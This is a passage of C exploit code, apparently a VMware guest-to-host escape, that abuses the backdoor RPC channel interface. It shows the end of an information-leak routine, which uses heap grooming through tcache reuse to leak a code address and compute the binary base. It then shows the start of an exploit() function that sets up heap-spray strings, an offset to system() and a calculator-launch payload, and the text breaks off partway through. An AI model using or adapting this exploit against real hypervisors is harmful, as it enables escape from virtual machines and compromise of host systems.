 ```c

    if(!res){
        printf("fail to recv finish2\n");
        return;
    }

    printf("check the heap, our target buffer in tcache now!\nTrying to reuse the buffer as a struct, which we can leak..\n");
    run_cmd(s5);
    printf("Should be done.Check the buffer\n");

    //Now the output buffer of chan[1] is used as a struct, which contains many addresses
    channel_recv_reply_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,&len,&res);
    if(!res){
        printf("fail to recv data len\n");
        return;
    }

    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i<len+0x10;i+=4){
        channel_recv_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,i,data,&res);
    }
    printf("recv data:\n");
    for(i=0;i<len;i+=8){
        printf("recv data:%lx\n",*(long long *)&data[i]);
    }
    text = (*(uint64_t *)data)-0xf818d0;
    channel_recv_finish(chan[0].cookie1,chan[0].cookie2,chan[0].num,&res);
    printf("Leak Success\n");
}

void exploit(){
    //the exploit step is almost the same as the leak ones
    struct channel chan[10];
    int res=0;
    int len,i;
    char *data;
    char *s1 = "info-set guestinfo.b BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s2 = "info-get guestinfo.b";
    char *s3 = "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB";
    char *s4 = "gnome-calculator\x00";
    uint64_t pay1 =text+0xFE95B8; 
    uint64_t pay2 =text+0xECFE0; //system
    uint64_t pay3 =text+0xFE95C8;
    char *pay4 = "gnome-calculator\x00";
    //run_cmd(s1);
    channel_open(&chan[0].cookie1,&chan[0].cookie2,&chan[0].num,&res);
    if(!res){
        printf("fail to open channel!\n");
        return;
    }
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s1),&res);
    if(!res){
        printf("fail to set len\n");
        return;
    }
```
